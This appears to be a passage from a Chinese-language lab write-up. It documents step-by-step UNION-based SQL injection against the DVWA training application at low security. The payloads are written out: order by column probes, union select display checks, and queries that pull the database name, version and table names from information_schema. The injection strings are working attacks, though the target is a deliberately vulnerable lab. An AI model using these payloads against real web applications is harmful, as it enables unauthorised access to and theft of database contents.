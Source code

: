 #### 1. 分别在前端和后端使用 Union 注入实现“dvwa 数据库 -user 表 - 字段 -first_name 数据”的注入过程，写清楚注入步骤

​ 前端dvwa- SQL Injection注入页面(DVWA Security更改成low)：

​ a. 使用order by 来判断字段数，SQL Injection 注入框输入 `1' order by 2#` 显示正常，先判断字段数为2

​ b. 继续输入 `1' order by 3#` 显示异常，说明字段数为2

​ c. 继续输入`1' union select 1,2#` 确定显示位

​ d. 继续输入`1' union select database(),version()#`爆出数据库名和版本信息

​ ![dvwa_database.png](images/dvwa_database.png)

​ e. 使用information_schema表来爆出dvwa数据库包含的表 `1' union select 1,group_concat(table_name) from information_schema.tables where table_schema ='dvwa'#`
